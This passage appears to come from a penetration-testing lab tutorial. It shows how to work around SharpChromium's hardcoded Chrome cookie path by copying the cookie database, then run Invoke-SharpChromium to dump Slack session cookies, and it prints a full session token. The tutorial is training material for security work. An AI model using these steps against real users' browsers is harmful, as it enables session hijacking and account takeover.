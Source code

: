 ```powershell
   at SharpChromium.Program.extract data(String path, String browser)
[*] Finished Google Chrome extraction.

[*] Done.
```

We got an error because the cookie file path that contains the database is hardcoded in [SharpChromium](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47), and the current version of Chrome uses a different location.

We can modify the code of `SharpChromium` or copy the cookie file to where SharpChromium is looking.

`SharpChromium` is looking for a file in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies`, but the actual file is located in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies` with the following command we will copy the file to the location SharpChromium is expecting.

### **Copy Cookies to SharpChromium Expected Location**

```powershell
PS C:\htb> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

We can now use Invoke-SharpChromium again to get a list of cookies in JSON format.

### **Invoke-SharpChromium Cookies Extraction**

```powershell
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "httpOnly": true,
    "name": "d",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": false,
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlqrv8rORsOoRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "httpOnly": true,
    "name": "d-s",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": true,
    "storeId": null,
    "value": "1659023172"
```
